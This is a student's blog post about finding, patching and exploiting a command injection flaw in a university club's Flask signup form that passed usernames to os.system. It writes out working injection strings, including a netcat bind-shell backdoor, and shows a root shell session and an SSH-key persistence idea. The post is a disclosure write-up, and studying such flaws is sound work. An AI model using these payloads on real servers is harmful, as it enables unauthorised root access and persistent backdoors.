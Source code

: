 ```yaml
---
layout: post
date: 2014-03-01 14:00
title: iHackedIT
categories: web security hacking python
---
```


*Discovering, patching, and exploiting a simple command injection webapp*

## Introduction

The university that I study at, [Northeastern](http://neu.edu) has an awesome [Entrepreneurs Club](http://www.northeastern.edu/entrepreneurs/). One of the programs that they run is called [iMadeIT](http://www.northeastern.edu/entrepreneurs/programs/imadeit/) which is a series of workshops designed to help entrepreneurs with a nontechnical background to learn about web development. This post is going go over a vulnerability I discovered in the iMadeIT class website, how I patched, and how an attacker might exploit it in a real situation.

## Background

The workshops are taught using [Flask](http://flask.pocoo.org/), a Python microframework for web development known for its simplicity and ease of use for beginners. Students taking the class would sign up at [imadeit.nu](http://imadeit.nu), which would make them an account on the website for class management purposes, but also would interestingly create an account for them on the server running the iMadeIT site as well as allow them to "register" a TCP port to run their Flask app on. This would allow students to have a live link on the internet so they could show off what they've been working on to people (instead of just running on localhost) without requiring everyone to have their own server.

## The Vulnerability

Anyway, the iMadeIT guys open sourced the [code](https://github.com/imadeitnortheastern/spring2014) that runs their imadeit.nu website and since it is actually written in Flask which is something I've been meaning to learn for a while now, I decided to take a look at it to see if I could understand anything.

After poking around in the code for a bit, I noticed this particularly interesting function:

```python
def create(name, password):
    {...}
    return os.system('useradd -p {} -s /bin/bash -d /home/{} -m {}'.format(enc_pass, name, name))
```

This is what gives the user their own account on the server. If we trace the function calls, we can see that this function is called from the `create_account` function. Heavily edited to only show relevant sections, it looks like this:

```python
def create_account():
    {...}
    name = request.form['create_username']
    pw = request.form['create_pw']
    {...}
    user.create(name, pw)
    {...}
```

Notice anything? The username is taken from the webpage form and directly passed into the `create` function without any type of sanitization, creating a classic [command injection](https://www.owasp.org/index.php/Command_Injection) vulnerability. What this essentially means is that it's possible for an attacker to put a specially formatted string in the username field that will allow them to execute arbitrary commands on the server.

For example, under ordinary circumstances, a user might enter "mark" as their username, so the `os.system()` call would execute:

```sh
useradd -p {encrypted password} -s /bin/bash -d /home/mark -m mark
```

Let's say a user entered "mark; ls -l #". Now, `os.system()` is going to execute:

```sh
useradd -p {encrypted password} -s /bin/bash -d /home/mark; ls -l; # -m mark; ls -l #
```

This will create the user "mark", but it will also cause `ls -l` to be executed, which will list the files in the directory. Now the user that entered this in the form isn't going to see anything; the command executes internally on the server. Hopefully you're seeing now why this is bad - anyone can execute any command on the server as the user that is running the Flask app. In this case it's particularly bad, because the app is running on port 80 of the server which is a "privileged" port. Since only the superuser is allowed to run network services on ports below 1024, essentially anyone now has root access to the server.

As a side note, the "#" in the injection is there to comment out the rest of the command (the "-m" part) so it doesn't interfere with the injection.

## Patching

This is actually a really easy vulnerability to protect against, all that's required is to make sure that that the username and password fields are checked in some form before they are sent to the system call. In this case, we don't have to worry about the password, because it goes through encryption before being used in the system call, so any attempts to inject in the password field would fail when the attacker's injection gets encrypted.

To check the username input, it's important to use a [positive security model](https://www.owasp.org/index.php/Positive_security_model) (a whitelist) over a negative one. This is because using a blacklist of specific characters that aren't allowed can be potentially incomplete and leaves the attacker room to find sneaky ways to exploit this vulnerability using alternative characters that aren't in your blacklist. As a general rule, it's better to use a whitelist of only the characters that are permitted. In this case, for a username, let's say that users should only be allowed to have usernames with lowercase letters, uppercase letters, underscores, and periods. Writing a function to check for this would look like this:


```python
import re
def valid_username(name):
    if re.search('[^\w.]', name):
        return False
    else
        return True
```

In this particular approach, we aren't *really* sanitizing the input, we're just checking it's validity. In this case, if this function returned false, the `create_account` function would fail, and we would show an error to the user. An alternative would be to attempt to correct invalid user input by removing invalid characters, however despite potential UX arguments, I think it's personally better just to halt completely and let the user sort it out on their end.

### Exploiting

Now that we've described how the vulnerability works, and how to protect against it, let's dirty our white hats a little and check out some steps an attacker might take once discovering the vulnerability.

First of all, we know that we can execute arbitrary commands on the server as the root user. To most, this pretty much is already the definition of being 0wned. However, doing so is sort of awkward; we have to go to the login form and create a new user for every command we want to execute. Let's use netcat to create a rudimentary backdoor into the system by telling netcat to listen on an arbitrary port (say, 1337) and executing a certain file upon receiving a connection (say, `/bin/sh`).

This command looks like

```sh
$ netcat -l -p 1337 -e /bin/sh
```

and so our injection would look like

```sh
mark; netcat -l -p 1337 -e /bin/sh & #
```

Notice that I added a "&" before the "#" in the injection. This will cause the backdoor to run in the background because otherwise the flask process would stop while the backdoor is running, and the webapp would stop working. Not very stealthy. When we enter this into the create account form, we won't get any sort of confirmation that our backdoor is working, however we'll know soon enough when we test it. To connect, all we need to do is run

    $ netcat [ip address] 1337

which will attempt to create a simple TCP connection to the IP address of the server on the same port you specified earlier. If it worked, you won't get a prompt, but you'll have a shell that you can enter commands at. With spaces added for ease of reading, this looks like

    $ netcat 1.2.3.4 1337
    
    ls
    imadeit.db
    imadeit.py
    schema.sql
    static
    templates
    user.py
    user.pyc
    
    whoami
    root
    
    echo $SHELL
    /bin/bash

Now, the server has been totally owned. Next steps could include adding your ssh public key to the `~/.ssh/authorized_keys` file for enhanced persistence if the server got restarted, or if someone saw your backdoor and killed it. In a situation where the app wasn't running on port 80 and was running on a nonprivileged port instead, you wouldn't necessarily have root access so you would then use a local exploit to escalate privileges. However for this situation, even exploiting this vulnerability at all is sort of pointless because the webapp actually *creates an account for you* on the server which you can ssh into, and legitimately get a shell.

## Conclusion

I hope you can see now how even something as simple as checking user input in a webapp can go a long way in securing your web site and making sure you don't get hacked. After discovering the vuln, I submitted a pull request to iMadeIT's repo on github, which was merged and deployed an astonishing [*5 minutes*](https://github.com/imadeitnortheastern/spring2014/pull/1) later, so serious props to them for that. I've never discovered a serious vulnerability "in the wild" before, so it was sort of cool to go through the process of submitting the patch and then confirming that it was working in the live site.

That's all, thanks for reading!
